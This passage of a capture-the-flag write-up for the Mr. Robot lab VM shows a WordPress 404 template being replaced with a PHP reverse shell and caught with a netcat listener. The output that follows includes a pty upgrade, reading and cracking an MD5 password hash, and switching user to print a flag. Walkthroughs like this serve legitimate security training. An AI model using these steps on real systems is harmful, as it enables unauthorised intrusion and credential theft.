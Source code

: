 Now, logging as elliot:ER28-0652 we can upload a php-reverse-shell.php from pentestmonkey and change the configuration to conncet to our attacker vm. We have several options here, do a searchsploit to find a vulnerable plugin, install it and exploit it. Or we can change the Appearance -> Editor -> 404.Template as our php reverse shell. We `nc -lvp 1234` and visit http://192.168.182.158/404.php.

```
root@kali:~# nc -lvp 1234
listening on [any] 1234 ...
connect to [192.168.1.88] from linux.home [192.168.1.101] 55905
Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
 02:36:26 up  3:37,  0 users,  load average: 0.00, 0.51, 1.68
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
/bin/sh: 0: can't access tty; job control turned off
$ python -c 'import pty; pty.spawn("/bin/bash")'
daemon@linux:/$ ls
ls
bin   dev  home        lib    lost+found  mnt  proc  run   srv	tmp  var
boot  etc  initrd.img  lib64  media	  opt  root  sbin  sys	usr  vmlinuz
daemon@linux:/$ find / -name "key-2-of-3.txt" 2>&-
find / -name "key-2-of-3.txt" 2>&-
daemon@linux:/$ cat /home/robot/key-2-of-3.txt
cat /home/robot/key-2-of-3.txt
cat: /home/robot/key-2-of-3.txt: Permission denied
daemon@linux:/$ cd /home/robot    
cd /home/robot
daemon@linux:/home/robot$ ls
ls
key-2-of-3.txt	password.raw-md5
daemon@linux:/home/robot$ cat password.raw-md5
cat password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b
daemon@linux:/home/robot$ ls -lah
ls -lah
total 16K
drwxr-xr-x 2 root  root  4.0K Nov 13  2015 .
drwxr-xr-x 3 root  root  4.0K Nov 13  2015 ..
-r-------- 1 robot robot   33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot   39 Nov 13  2015 password.raw-md5
```

We have the robot login, we can just use a md5 reverse lookup online `robot:abcdefghijklmnopqrstuvwxyz` and cat the file to find flag 2: `822c73956184f694993bede3eb39f959`

```
daemon@linux:/home/robot$ su robot                               
su robot
Password: abcdefghijklmnopqrstuvwxyz

robot@linux:~$ cat /home/robot/key-2-of-3.txt
cat /home/robot/key-2-of-3.txt
822c73956184f694993bede3eb39f959
```
